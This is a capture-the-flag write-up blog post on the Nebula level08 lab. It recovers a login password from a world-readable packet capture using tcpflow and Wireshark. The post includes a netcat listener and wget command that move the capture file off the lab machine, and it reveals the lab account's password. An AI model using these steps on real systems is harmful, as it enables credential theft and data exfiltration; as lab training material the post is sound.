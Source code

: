 ```yaml
---
layout: post
title: "World readable files strike again"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 08](http://exploit-exercises.com/nebula/level08) Agenda**: "Check what that user was up to, and use it to log into flag08 account."

<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/strikes-again.jpg">
</center>
<br />
All right!!! So basically, what do we have to start with, is a single [pcap](http://en.wikipedia.org/wiki/Pcap) file format:
{% highlight sh linenos %}
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
{% endhighlight %}
If working with TCP based protocols it can be very helpful to see the data from a TCP stream in the way that the application layer [sees it](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowTCPSection.html).


Without doubts [Wireshark](http://en.wikipedia.org/wiki/Wireshark) is a wounderful tool (nonetheless, we aren't able to use [X11-server](https://en.wikipedia.org/wiki/X_Window_System) on Nebula VM. Actually, all is [possible =)](http://www.quora.com/How-valid-are-the-ideas-in-Athenes-theory-of-everything) but that's definitely is not the best way). It worth to notice that there's also exist console version called [tshark](https://www.wireshark.org/docs/man-pages/tshark.html) but unfortunately, attempt to setup it on VM due to some failures was unsuccessful. That's why I had to use what was at hand, in particular [tcpflow](http://www.circlemud.org/jelson/software/tcpflow/):
{% highlight sh linenos %}
level08@nebula:/home/flag08$ tcpflow -cer ./capture.pcap
{% endhighlight %}
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_0.png">
</center>
Blue color indicates client to server flow and the red one is server to client. The default behavior in case of printing to file/console is converting all non-printable characters to the "." character. We have four dots in the password, let’s not guessing but making clear for sure what it exactly is by using wireshark (cannot escape from fate) on the outer host. 

Firstly need to pass this instance file out and [netcat](http://en.wikipedia.org/wiki/Netcat) will help in this.
{% highlight sh linenos %}
level08@nebula:/home/flag08$ nc -l 8888 < ./capture.pcap
# And then on the outer host:
nobody@home$ wget -O capture.pcap 192.168.56.102:8888
{% endhighlight %}
Secondly, check out on the wireshark:
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_1.png">
</center>
If grab the [ASCII](http://www.asciitable.com/) table it appears that "_7F_" hex represents [delete](http://en.wikipedia.org/wiki/Delete_character) and "_0D_" - [carriage return](http://en.wikipedia.org/wiki/Carriage_return) symbols respectively. The final note as conclusion, after applying "_DEL_", the passphrase (flag08 account) becomes - "_backd00Rmate_". Hell yeah (òÓ,)_\,,/ !